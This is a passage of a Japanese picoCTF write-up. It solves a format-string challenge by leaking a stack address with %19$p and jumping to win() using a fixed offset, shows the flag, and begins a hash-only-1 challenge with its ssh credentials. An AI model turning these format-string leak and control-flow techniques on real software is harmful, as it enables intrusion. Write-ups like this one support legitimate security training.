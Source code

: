   call_functions();
  return 0;
}
{{< / highlight >}}

<br />

### Solution

上記ソースコードのハイライトしているところで、書式文字列攻撃ができます。

<br />

gdbで解きました。

M1 Mac上で動かしている VMWare の Ubuntu では結果が異なってしまって解けなかったので、別のPCを使いました。

<br />

gdbでwin()関数のアドレスを確認しつつ、%14$p から順番に、%15$p、%16$p、と試していったら、%19$p を入れたときにwin()関数のアドレスと近い値を発見できました。

かつ、アドレスの差分が常に固定 (0xd7) であったため、これを使いました。

<pre>
$ nc rescued-float.picoctf.net 50119
Enter your name:%19$p
0x55ef63fcd441
 enter the address to jump to, ex => 0x12345: 0x55ef63fcd36a
You won!
picoCTF{p13_5h0u1dn'7_134k_e7fc8501}
</pre>

<br />

Flag: `picoCTF{p13_5h0u1dn'7_134k_e7fc8501}`



<br /><br />
<br /><br />
## [Binary Exploitation]: hash-only-1 (100 points)
- - -
### Challenge
> Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content!<br />
Connect using ssh ctf-player@shape-facility.picoctf.net -p 62974 with the password, a15d25e1 and run the binary named "flaghasher".<br />
You can get a copy of the binary if you wish: scp -P 62974 ctf-player@shape-facility.picoctf.net:~/flaghasher .

<br />

### Solution

まずはSSHをして、動きを見てみます。ホームディレクトリに flaghasher というバイナリファイルがあり、実行すると /root/flag.txt の md5値を出してくれます。
